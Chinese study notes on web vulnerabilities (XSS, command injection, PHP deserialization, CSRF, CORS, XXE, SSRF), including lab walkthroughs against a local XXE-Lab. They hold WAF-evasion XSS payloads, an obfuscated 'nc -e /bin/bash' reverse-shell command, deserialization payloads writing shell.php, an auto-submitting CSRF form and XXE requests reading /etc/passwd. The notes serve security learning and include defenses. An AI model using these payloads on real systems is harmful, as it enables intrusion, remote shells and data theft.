  - 存在位置:常出现在`留言板`,`发表评论`或`发表文章`的地方(数据写入的地方)

  - 攻击手法:通过留言板等功能,将攻击者精心构造的XSS代码`保存到数据库`中,当其它用户再次访问这个页面时,就会触发并执行,从而窃取用户的敏感信息

    - 以留言板为例,留言板是`容易`发生`存储型XSS`的地方
    - 输入测试代码`<script>alert(/xsstest/)</script>`,提交留言,当网站管理员在后台进入留言管理页面时就会弹出,只要留言不删除,每次进入都会弹窗

    ****

- `DOM型XSS`

  - `不经过后端`,输出点在DOM,DOM-XSS是通过url传入参数去控制触发的,本质也属于`反射型XSS`

  - 攻击手法:攻击者构造出`特殊的URL`,其中包含恶意代码,用户打开带有恶意代码的URL,用户`浏览器`接收到响应后`解析执行`,前端`JavaScript`取出URL中的恶意代码并执行.恶意代码窃取用户数据并发送到攻击者的网站,或者冒充用户的行为,调用目标网站的接口执行攻击者指定的操作

  - | 方法                    | 描述                                                        |
    | ----------------------- | ----------------------------------------------------------- |
    | getElementById()        | 返回带有指定ID的元素                                        |
    | getElementByTagName()   | 返回包含带有指定标签名称的所有元素的节点列表(集合/节点数组) |
    | getElementByClassName() | 返回包含带有指定类名的所有元素的节点列表                    |
    | appendChild()           | 把新的节点添加到指定节点                                    |
    | removeChlid()           | 删除子节点                                                  |
    | replaceChild()          | 替换子节点                                                  |
    | insertBefore()          | 在指定的子节点前面插入新的子节点                            |
    | createAttribute()       | 创建属性节点                                                |
    | createElement()         | 创建元素节点                                                |

  - poc: `?message=<script>alert(/xss/)</script>`

  - 以`锚点`的方式提交poc,poc并`不会发送到服务器`,但是已经触发了XSS

  - 测试代码

  - ```html
    <html>
    <body>
    <script>
    	var a = document.URL;	//获取url
    	a = unescape(a);
    	document.write(a.substring(a.indeOf("message=")+8,a.length));	//获取url中的message的值,并且输出
    </script>
    </body>
    </html>
    ```

    ****

- 三种漏洞`区别`

  - `存储型XSS`与`反射型XSS`的区别:存储型XSS的恶意代码存在数据库里,反射型XSS的恶意代码存在URL里

  - `DOM型与其它两种`的区别:DOM型XSS攻击中,取出和执行恶意代码由浏览器端完成,属于前端Javascript自身的安全漏洞,而其它两种XSS都属于服务端的安全漏洞

    ****

#### xss的简单利用

- XSS获取管理员权限(获得cookie)
- xss键盘记录
- xss获取页面源代码,前端代码
- xss获取内网ip通过对内网进行扫描
- xss组合其它漏洞getshell
- 利用xss进行水坑攻击/钓鱼攻击
- 其他利用

#### xss绕过waf

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    width: ｅｘｐｒｅｓｓｉｏｎ(alert(1))
    <!--TODO:使用全角字符-->
    <style>@import 'javasc/ri/0pt:alert("xss")';</style>
</head>
<body>
<script>alert(1)</script></img>


<body onload=alert(1)>
<p onmouseover=alert(1)>test</p>
<a href="javascript:alert(1)">test</a>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" ></object>
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

<!--TODO:变形,大小写-->


<!--TODO:左斜线代替空格,水平制表符,回车符-->

<a href="javascript:alert(1)">test</a>

<!--TODO:双写绕过-->
<!--<scr<scriptipt>alert(1)</scr</script>ipt>-->

<!--TODO:编码-->
<A hREf="j&#97;v&#x61;script:alert(1)">test</A>

<!--TODO:使用特殊字符编码-->
<A href="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">点击</A>

<!--TODO:使用html编码-->
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;">点击</a>

<!--TODO:使用十进制 ascii 编码-->


<!--TODO:使用十六进制 ascii 编码-->

<script>eval("/x61/x6c/x65/x72/x74/x28/x27/x78/x73/x73/x27/x29")</script>

<!--TODO:使用unicode编码-->


<!--TODO:使用jsfuck,http://www.jsfuck.com/ 在线转换-->

</body>
</html>
```

****

### 命令执行

#### 相关函数

```php
<?php
// 1. system()
system('whoami'); // 列出当前目录的文件

// 2. exec()
exec('whoami', $output); // 执行命令并将输出保存到数组中
print_r($output);

// 3. shell_exec()
$result = shell_exec('whoami'); // 执行命令并将结果作为字符串返回
echo $result;

// 4. passthru()
passthru('whoami'); // 执行命令并直接输出结果

// 5. popen()
$handle = popen('whoami', 'r'); // 打开进程以读取输出
while (($line = fgets($handle)) !== false) {
    echo $line;
}
pclose($handle);

// 6. 反引号 (backticks)
$output = `whoami`; // 使用反引号执行命令并将结果作为字符串返回
echo $output;
?>
```

****

#### 危害

- 继承web服务器程序权限,`执行系统命令`,`读写`文件
- `反弹shell`
- `控制`整个服务器或网站

****

#### 防御

- 尽量不使用`执行系统命令`的函数,禁用`disable_functions`
- 在执行命令函数前,对参数进行`过滤`,敏感字符进行`转义`
- 参数尽量使用`引号包括`,拼接前调用`addslashes`进行转义

****

#### 变形

- `*`代表通配符`[0,无穷]`
- `?`代表`[一定有一个]`任意字符
- `[]`同样代表`[一定有一个在括号内]`的字符(非任意字符).例如`[abcd]随机一个`
- `[-]`若有减号在中括号内时,代表`[在编码顺序内的所有字符]`.例如[0-9]代表0-9之间的所有数字,因为数字的编码是连续的
- `[^]`若中括号内的第一个字符为指数符号`^`,那表示[反向选择],例如`[^abc]`代表一定有一个字符,只要是`非`a,b,c的其它字符就接收的意思

```cmd
//执行 cat /etc/passwd 读取passwd文件
//变形:/?in/?at/?tc/?ass?d  

//执行反弹shell时, nc -e /bin/bash 192.168.12.151 4444
//变形------------/???/nc -e/???/b???h 192.168.12.151 4444
//还可ip转数字,数字转ip
//变形------------/???/nc -e/???/b???h 3232238743 4444

//单引号----------------'n'c -e /'b'i'n'/b'a's'h' 1'9'2.1'6'8.1'5'1 '4'44'4'

//双引号----c"a"t /"e""t"c/"p"as"s"w"d"
//反斜杠----c/a/t /e/t/c/p/as/swd
//组合------c'a't /??c//p?/s?''?"d"

//未初始化变量
echo $a $b $c
cat$a /etc$a/passwd$a
a=w;b=hoa;c=mi;$a$b$b  --->输出root

//使用没有被waf过滤的命令
nc -lnvp 4444
靶机:whois -h 192.168.1.1 -p 4444 'whoami'

//反引号执行命令
`whoami`
ichunqiu `whoami` ichunqiu

//大括号,重定向符号绕过空格过滤
{cat,/etc/passwd}
{ls,-al}
l<>s
cat<>/etc/passwd

//base64编码
ehco whoami|base64  -->  d2hvYW1pCg==
`echo d2hvYW1pCg== | base64 -d`

//linux默认字符命令
${#PATH:5:1}${#PATH:2:1}
```

------


```cmd
//windows绕过
//大小写混合绕过
(((WH^O^am""i)))

//set命令和windows变量绕过
set a=ichunqiu
echo %a%

set i=ipconfig
%i%

set z=ipc
set x=onfig
%z%%x%

//字符串切割
echo  %a% --> whoami
%a:~0.6%

//逻辑运算符
whoami | net user  -->执行命令2
whoami || net user -->命令1失败执行命令2
whoami & net user  -->无论1是否成功都会执行命令2
```

------

### 反序列化漏洞

#### 概念

- 定义:将对象的`状态信息`转换为`可以存储或传输的形式`(字符串的过程).在序列化期间,对象将其当前状态写入到临时或持久性存储区.之后可以通过存储区中读取或反序列化对象的状态,重新创建该对象
- 即:序列化就是把一个`对象变成可以传输的字符串`,可以以特定的格式在进程之间跨平台,安全的进行通信
- 用途:方便`对象`在网络中的传输与存储
- 序列化与反序列化的过程:
  - 序列化:将对象转换为流,利于存储和传输的格式
  - 反序列化:将流转化为对象

****

#### 序列化

```php
<?php
class Stu{
	public $name;
	public $sex;
	public $age;
	public $score;
}
?>
    

//使用serialize(),将$stu1这个对象序列化成一个字符串
<?php
include "classStu.php";
$stu1=new Stu();
$stu1->name="ichunqiu";
$stu1->sex=true;
$stu1->age=23;
$stu1->score=100;
echo serialize($stu1);
?>
```


------

#### 反序列化

```php
<?php
    include "class.php";
	$stu1=
    <<<STR
    O:3:"Stu":4:{s:4:"name";s:8:"ichunqiu";s:3:"sex";b:1;s:3:"age";i:24;s:5:"score";d:100;}
    STR;
	$stu1=unserialize($stu1);
	var_dump($stu1);
?>
```


- 概念:php反序列化漏洞也叫`php对象注入`
- 危害:这些漏洞很难利用,但是一旦利用成功`非常危险`
- 形成原因:程序`没有对用户输入的反序列化字符串进行检测`,导致反序列化过程可以被恶意控制,进而造成代码执行,getshell等一系列不可控的后果.反序列化漏洞并不是php特有,也存在python,java等语言中

------

#### 常见的魔法函数

- `_construct()`:当一个`对象创建`时被调用(相当于c++构造函数)
- `_destruct()`:当一个`对象销毁`时被调用(c++的析构函数)
- `_sleep()`:将在unserialize()函数执行``反序列化`时使用
- `_weekup()`:将在unserialize()函数执行`反序列化`时调用
- `_toString()`:当一个`对象被当作一个字符串`时使用

```php
<?php
class Test{	//创建一个类
public $str='ichunqiu;';
function _destruct(){
//通过反序列化，调用A对象，因为PHP魔法函数的缘故，他会自动执行destruct()
@system($this->str);}
 //创建一个类的对象，并将其序列化
$test = new Test();
//echo serialize($test);
echo "<pre>";
//反序列化，将得到的序列化字符串反序列化为对象
unserialize($ GET['code']);
?>    
```

```php
//payload
?code=O:4:"Test":1:{s:3:"str";s:8:"ipconfig";}
?code=O:4:"Test":1:{s:3:"str";s:6:"ipconfig";}
```


```php
<?php
class Hello{
var $test ='123';
function _wakeup(){
$fp = fopen("shell.php","w+");
fwrite($fp,$this->test);
fclose($fp);}}
$class3 = $ GET['code'];
print _r($class3);
echo "</br>";
$class3 _unser= unserialize($class3);
?>
```

```php
//payload
?code=O:5:"Hello":1:{s:4:"test";s:19:"<?php phpinfo();?>";}
```

****

### CSRF(跨站请求伪造)

#### 概念

- `诈骗链接`

- 概念:跨站请求伪造(Cross-site request forgery，CSRF)是一种攻击，它强制终端用户在当前对其进行身份验证后的Web应用程序上`执行非本意的操作`。CSRF攻击的着重点在`伪造更改状态的请求`，而`不是盗取数据`，因为攻击者无法查看对伪造请求的响应
- 借助社工的一些帮助(例如通过电子邮件或聊天发送链接)，攻击者可以`诱骗用户执行攻击者选择的操作`。如果受害者是`普通用户`，则成功的CSRF攻击可以`强制用户执行状态更改`的请求，例如转移资金，更改其电子邮件地址等。如果受害者是`管理帐户`CSRF可能会`危及整个Web应用程序`
- 原理:CSRF是一种`欺骗`受害者提交恶意请求的攻击,它`继承了受害者的身份和权限`,代表受害者执行`非本意`,`恶意`的操作
- 关键点:对于大多数站点，浏览器请求`自动发送`与站点关联的所有凭据，例如用户的会话cookie，IP地址，Windows域凭据等.因此，如果用户当前已对该站点进行了身份验证，则该站点将`无法区分`受害者发送的伪造请求和受害者发送的合法请求
- 条件:
  - 登录`受信任网站A`,并在`本地生成Cookie`
  - 在`不登出A`的情况下,`访问危险网站B`

****

#### CSRF的危害和防御

- CSRF漏洞`危害`
  - 攻击者盗用了用户的身份后，以用户的名义发送恶意请求;
  - CSRF的恶意操作:以用户名义发送邮件，发消息，盗取账号，购买商品，虚拟货币转账等等，
  - 造成的问题包括:个人隐私泄露以及财产安全问题。
- CSRF漏洞`防御`
  - 验证Referer字段----如果Referer是`其他网站`的话，就有可能是CSRF攻击，则拒绝该请求.。
  - 添加Token验证----可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中`没有token`或者`token内容不正确`，则认为可能是CSRF攻击而拒绝该请求。
  - 二次验证----在转账等`关键操作之前`提供当前`用户的密码`或者`验证码`
  - 用户养成良好的习惯----不要随意点击链接和图片、及时退出长时间不使用的已登录账户、安装合适的安全防护软件

------

#### CSRF和XSS的区别

- 从`原理`的角度
  - XSS是将`恶意的代码插入到html页面`中，当用户浏览页面时，插入的html代码会被执行，从而达到最终目的。
  - CSRF是一种`欺骗受害者`提交恶意请求的攻击。代表受害者执行`非本意、恶意`的操作
- 其他角度:
  - 1.CSRF比XSS漏洞危害更高，相对XSS而言较难防御。
  - 2.CSRF可以做到的事情，XSS都可以做到。
  - 3.XSS有局限性，而CSRF没有局限性:
  - 4.XSS针对`客户端`，而CSRF针对`服务端`
  - 5.XSS是`利用合法用户`获取其信息，而CSRF是`伪造成合法用户`发起请求。

****

#### 同源策略

- 定义:如果两个页面的`协议`，`端口`(如果有指定)和`域名`都`相同`，则两个页面`具有相同的源`
- 概况:
  - 同源策略是浏览器的一个`安全功能`，`不同源`的客户端脚本在`没有明确授权`的情况下，不能读写对方资源。
  - 同源策略限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。
  - 这是一个用于`隔离潜在恶意文件`的重要安全机制。
- 受约束对象:`DOM`,`Cookie`,`第三方插件`以及`XMLHttpRequest`都受到`同源策略`的约束
- 不受约束的对象:
  - 页面中的`链接`，`重定向`以及`表单`提交是不会受到同源策略限制的。
  - 跨域资源的引入是可以的。但是js不能读写加载的内容。如嵌入到页面中的<script>，，<link>，<iframe>等带`src属性`的标签。
- 非同源收到的限制:
  - Cookie、LocalStorage 和 IndexDB 无法读取。
  - DOM 无法获得。
  - AJAX 请求不能发送。

****

#### 跨域

- 概念:受前面所讲的浏览器同源策略的影响，不是同源的脚本`不能操作其他源`下面的对象。想要`操作另一个源下的对象`是就需要`跨域`
  简单的说，我们把`不同域`之间`请求数据`的操作，称为跨域

****

##### document.domain跨域

- `方法`:
  - document.domain跨域(两个页面`一级域名相同`,只是`二级域名不同`,可用该设置共享Cookie)
    - 只能在`父域名`与`子域名`之间使用
    - `存在安全性问题`,当一个站点被攻击以后,另一个站点会引起安全漏洞
    - 只适用于`Cookie`和`iframe`窗口

****

##### JSONP跨域

- 说明:利用`<script>的src不受同源策略约束`实现跨域获取数据
- `Jsonp(SON with Padding)`是json 的一种"使用模式"，可以让网页从别的域名(网站)那获取资料，即跨域读取数据。
- 存在问题:
  - 存在`安全性`问题需要网站双方商议基础token的身份验证
  - 只能是`GET`，不能POST
  - 可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题

****

##### CORS跨域

- CORS全称为`跨域资源共享`
- 说明:CORS是一个W3C标准,允许浏览器向跨源服务器发送`XMLHttpRequest`请求
- 利用`javascript`无法控制`http头`的特点,通过目标返回的`http头授权`是否允许跨域访问
- 检测方式:
  - curl https://www.baidu.com -H "Origin:https://qq.com" -I ,检查返回包的`Access-Control-Allow-Origin`字段是否为`https://qq.com
  - bp发送请求包,查看返回包的tips值,当它为null,代表信任任何域

****

#### CORS漏洞利用

- 用于`csrf`跨站请求伪造,发送钓鱼链接,读取用户敏感数据

- 用户点击`buttton`弹出响应信息

- ```html
  <!DOCTYPE html>
  <html>
  <body>
  <center>
      <h2>CORS POC Exploit</h2>
      <h3>Extract SID</h3>
      <div id="demo">
          <button type="button" onclick="cors()">Exploit</button>
          <p>Response will be shown here:</p>
          <pre id="response"></pre>
      </div>
      <script>
          function cors() {
              var xhttp = new XMLHttpRequest();
              xhttp.onreadystatechange = function() {
                  if (this.readyState == 4 && this.status == 200) {
                     // 输出响应内容
                      document.getElementById("response").textContent = this.responseText;
                  }
              };
              // 访问
              xhttp.open("GET", "http://127.0.0.1/csrf.html", true);
              xhttp.withCredentials = true; 
          }
      </script>
  </center>
  </body>
  </html>
  ```

  

------

#### 实战

> CSRF(get)


- 进入登录页面修改信息,然后`抓包拦截`


- 直接修改放行http://192.168.100.40:49615//csrfget/csrf_get_edit.php?sex=sunhua&phonenum=1433223&add=666+76&email=sunhua%40pen.com&submit=submit

- 确保`处于登录状态`,然后访问url
- 

- 可以发现修改`成功`!

------

> CSRF(post)

- 提前写好`csrf.html`

- ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>csrf</title>
      <script>
          window.onload=function () {
              document.getElementById("submit").click()
          }
      </script>
  
  </head>
  <body>
  <form method="post" action="http://192.168.100.40:49615/csrfpost/csrf_post_edit.php">
      <input type="hidden" name="sex" value="boy111"/>
      <input type="hidden" name="phonenum" value="1234567890"/>
      <input type="hidden" name="add" value="hack111"/>
      <input type="hidden" name="email" value="hack@hack.com"/>
      <input type="hidden" name="submit" value="submit"/>
      <input type="submit" id="submit" value="不是诈骗"/>
  </form>
  </body>
  </html>
  ```

- 直接访问http://127.0.0.1/csrf.html,可以发现被成功修改

- 

------

> CSRF(token)

- 下载插件
- 
- 发送到重放器,修改数据,发送请求


- 可以发现修改成功!

------

> document.domain跨域

- 创建如图树结构的文件
- 

```html
<!sub1.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 1</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8002/sub2.html'); // 使用实际的 URL
            otherWindow.postMessage('Hello from Subdomain 1!', 'http://localhost:8002');
        }

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8002') {
                alert('Received message: ' + event.data);
            }
        });
    </script>
</head>
<body>
    <h1>sub1</h1>
    <button onclick="sendMessage()">发送到sub2</button>
</body>
</html>

```

```html
<!sub2.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 2</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8001') {
                alert('接收信息: ' + event.data);
            }
        });

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8001/sub1.html'); // 使用实际的 URL
            otherWindow.postMessage('来自sub2!', 'http://localhost:8001');
        }
    </script>
</head>
<body>
    <h1>sub2</h1>
    <button onclick="sendMessage()">发送到sum1</button>
</body>
</html>
```

- 在两个`html`目录下分别开启`8001`和`8002`端口
- 


- 访问http://127.0.0.1:8001/sub1.html


------

> JSONP跨域

- 我使用的是`node.js`

- 

  

```js
//server.js

const express = require('express');
const app = express();

app.get('/api/data', (req, res) => {
  const callback = req.query.callback; // 获取回调函数名称
  const data = { message: '这是jsonp实现的跨域' };
  res.type('application/javascript'); // 设置响应类型
  res.send(`${callback}(${JSON.stringify(data)})`); // 返回JSONP格式
});

app.listen(3000, () => {
  console.log('请访问:http://localhost:3000/api/data?callback=handleData');
});
```

```html
<!index.html>

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>JSONP实现跨域</title>
  <script>
    function handleResponse(data) {
      console.log(data); // 处理返回的数据
      document.body.innerHTML += `<p>${data.message}</p>`;
    }

    function fetchData() {
      const script = document.createElement('script');
      script.src = 'http://localhost:3000/api/data?callback=handleResponse';
      document.body.appendChild(script); // 动态插入script标签
    }
  </script>
</head>
<body onload="fetchData()">
  <h1>JSONP示例</h1>
</body>
</html>

```

- 运行`server.js`,访问http://localhost:3000/api/data?callback=handleData


------

> CORS跨域

- 跟`jsonp`差不多

- ```js
  //server1.js
  
  const express = require('express');
  const cors = require('cors');
  
  const app = express();
  const PORT = 8001;
  
  // 启用 CORS
  app.use(cors());
  
  
  app.get('/api/data', (req, res) => {
      res.json({ message: '你好 CORS!' });
  });
  
  // 启动服务器
  app.listen(PORT, () => {
      console.log(`Server running on http://localhost:${PORT}`);
  });
  ```

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>CORS Example</title>
  </head>
  <body>
      <h1>CORS 示例</h1>
      <button id="fetchButton">获取数据</button>
      <pre id="output"></pre>
  
      <script>
          document.getElementById('fetchButton').addEventListener('click', () => {
              fetch('http://localhost:8001/api/data', {
                  method: 'GET',
                  headers: {
                      'Content-Type': 'application/json'
                  }
              })
              .then(response => {
                  return response.json();
              })
              .then(data => {
                  document.getElementById('output').textContent = JSON.stringify(data, null, 2);
              })
          });
      </script>
  </body>
  </html>
  ```

  


****

### XXE (外部实体注入)

#### XML(可扩展标识语言)

- 概念

  - XML是The Extensible Markup Language(可扩展标识语言)的简写
  - XML最初的目的是弥补HTML的不足，后来逐渐用于`网络数据的转换和描述`，`XML`的设计宗旨是`传输数据`,不是显示数据
  - XML在web中的应用已十分广泛。XML是各种应用程序之间`数据传输`最常用的数据格式。

- 与`html`区别

  - `html`是被用来`展示数据`,`xml`是用来`传输数据`

- 语法结构:

  - 分为两部分,一部分是`标签的定义`,一部分是`标签的解释`,标签的解释也成为`DTD`(document type definition)

  - ```DTD
    <?xml version="1.0"?>
    <!DOCTYPE note[>
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT from(#PCDATA)>
    <!ELEMENT body (#PCDATA)>
    ]>
    ```

****

#### DTD文档介绍

- 概念:

  - DTD使数据格式之间`按照相同的标准`来`传输`
  - DTD是一种XML`约束模式`语言,用来`解释XML文档`

- 分类:分为`内部DTD文档`和`外部DTD文档`

- 语法结构

  - ```dtd
    //内部dtd文档
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bookstore [
        <!ELEMENT bookstore (book+)>
        <!ELEMENT book (title, author, year, price)>
        <!ELEMENT title (#PCDATA)>
        <!ELEMENT author (#PCDATA)>
        <!ELEMENT year (#PCDATA)>
        <!ELEMENT price (#PCDATA)>
    ]>
    <bookstore>
        <book>
            <title>XML Developer's Guide</title>
            <author>John Doe</author>
            <year>2023</year>
            <price>29.99</price>
        </book>
        <book>
            <title>Learning XML</title>
            <author>Jane Smith</author>
            <year>2024</year>
            <price>39.99</price>
        </book>
    </bookstore>
    ```

  - ```dtd
    //bookstore.dtd
    <!ELEMENT bookstore (book+)>
    <!ELEMENT book (title, author, year, price)>
    <!ELEMENT title (#PCDATA)>
    <!ELEMENT author (#PCDATA)>
    <!ELEMENT year (#PCDATA)>
    <!ELEMENT price (#PCDATA)>
    ----------------------------------------------
    
    //外部dtd文档
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bookstore SYSTEM "bookstore.dtd">
    <bookstore>
        <book>
            <title>XML Developer's Guide</title>
            <author>John Doe</author>
            <year>2023</year>
            <price>29.99</price>
        </book>
        <book>
            <title>Learning XML</title>
            <author>Jane Smith</author>
            <year>2024</year>
            <price>39.99</price>
        </book>
    </bookstore>
    
    ```

****

#### XML实体介绍

- 概念:
  - XML语言的`变量`，和PHP、JSP、C语言变量一样，有`变量名`(实体名)、
    `变量值`(实体的值),可以通过`&/%`引用
  - XML实体类型:`普通`实体和`参数`实体，用下表总结两种实体类型:
  - 

****

#### XEE漏洞原理

- XEE漏洞也叫XML外部实体注入,XEE漏洞发生在应用程序`解析xml输入时`,`没有禁止外部实体的加载`,导致可`加载恶意外部文件`
- 漏洞的`产生`:对上传的xml文件`没有进行过滤`,导致可`上传恶意xml文件`
- 漏洞的`危害`:
  - 读取任意文件
  - 执行系统命令
  - 内网端口扫描
  - 攻击内网其它网站
- 漏洞的`防御`和`修复`
  - `禁止使用外部实体`,例如`ibxml_disable_entity_loader(true)`
  - `过滤`用户提交的`xml数据`,防止出现非法内容

****

#### 漏洞利用

- `任意文件读取`

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
<name>&xxe;</name>
```

- `远程端口探测`

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "http://ip:探测端口号/test/">]>
<name>&xxe;</name>
```

- `远程命令执行`

```dtd
//前提:php环境中安装了exepect扩展

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "expect://系统命令">]>
<name>&xxe;</name>
```

****

### SSRF漏洞原理

- SSRF(Server-side Request Forgery, 服务端请求伪造)是一种由`攻击者构造`形成由`服务端发起请求`的安全漏洞。一般情况下，SSRF攻击的`目标`是`从外网无法访问的内部系统`。正是因为它是由`服务端发起`的，所以它能够请求到`与它相连而与外网隔离的内部系统`。
- 存在漏洞位置;
  - 分享:通过URL地址分享网页内容
  - 转码服务
  - 在线翻译
  - 图片加载与下载:通过URL地址加载或下载图片
  - 图片、文章收藏功能
  - 未公开的api实现以及其他调用URL的功能
  - 从URL关键字中寻找
- 危害:
  - 端口扫描
  - 内网web应用指纹识别
  - 攻击内网web应用
  - 读取本地文件
- 修复
  - 限制请求的`端口只能为web端口`，只允许访问HTTP和HTTPS的请求
  - 设置`白名单`，或`限制内网IP`，以防止对内网进行攻击
  - 禁止`30x跳转`
  - 屏蔽返回的详细信息
- 相关`危险函数`

```php
/*

SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取的函数以PHP为例，涉及到的函数有
file get contents() -- file_get_contents是把文件写入字符串，当把url是内网文件的时候，会先去把这个文件的内容读出来再写入，导致了文件读取
fsockopen()-- fsockopen是打开一个网络连接或者Unix套接字连接
curl_exec() --利用方式很多，最常见的是通过fie、dict、gopher这三个协议来进行渗透
```

****

#### SSRF漏洞利用


****

#### SSRF常见的限制和绕过

   1.限制 http://www.aaa.com 域名

- 采用http基本身份认证的绕过方式，即使用@绕过。如http://www.aaa.com@www.bbb.com@www.ccc.com

- 注意:在对@解析域名中，不同的处理函数存在处理差异。如:在PHP的parse url中会识别www.ccc.com，而libcur则识别为www.bbb.com限制请求IP不为内网地

  - 绕过方法:
    采取短网址绕过，站长工具短网址 http://tool.chinaz.com/tools/dwz.aspx，跳转要去的地址
    3.采取特殊域名，如:xip.io可以指向任意域名，即127.0.0.1.xip.io，可解析为127.0.0.1
    4.采取进制转换。如:127.0.0.1 转换成十六进制 0x7f.0.0.1
    5.采取302跳转，使用302跳转地址
    4.采取短地址

****

### XXE和SSRF实战

#### XEE注入


- 打开`bp`进行抓包
- 构造payload

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 164
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY content SYSTEM "file:///etc/passwd">
]>
<user><username>&content;</username><password>admin</password></user>
```


****

#### 内部DTD

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 200
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE abc [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&test;</username><password>admin</password></user>
```


- 解密来看看

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

****

#### 内网探测

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 217
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE abc [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=http://192.168.100.40:56758/">
]>
<user><username>&test;</username><password>admin</password></user>
```


```html
<!doctype html>
<html lang="en">
<head>
	<meta charset="utf-8" />
	<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <link rel="shortcut icon" href="img/favicon.png" type="image/x-icon">
	
	<title>XXE-Lab</title>

	<meta content='width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0' name='viewport' />
    <meta name="viewport" content="width=device-width" />

	<link rel="stylesheet" type="text/css" href="css/font.css" />
	<link href="css/bootstrap.min.css" rel="stylesheet" />
	<link href="css/material-bootstrap-wizard.css" rel="stylesheet" />
</head>

<body>
	<div class="image-container set-full-height" style="background-color: #272822;">
	    <!--   Creative Tim Branding   -->
	    <!--   Big container   -->
	    <div class="container" style="width: 970px;">
	        <div class="row">
		        <div class="col-sm-8 col-sm-offset-2">
		            <!--      Wizard container        -->
		            <div class="wizard-container">
		                <div class="card wizard-card" data-color="green" id="wizardProfile">
		                    <form>
		                    	<div class="wizard-header">
		                        	<h3 class="wizard-title">
		                        	   <a href="http://github.com/c0ny1/xxe-lab">XXE-Lab for PHP</a>
		                        	</h3>
									
		                    	</div>
								<div class="wizard-navigation">
									<ul>
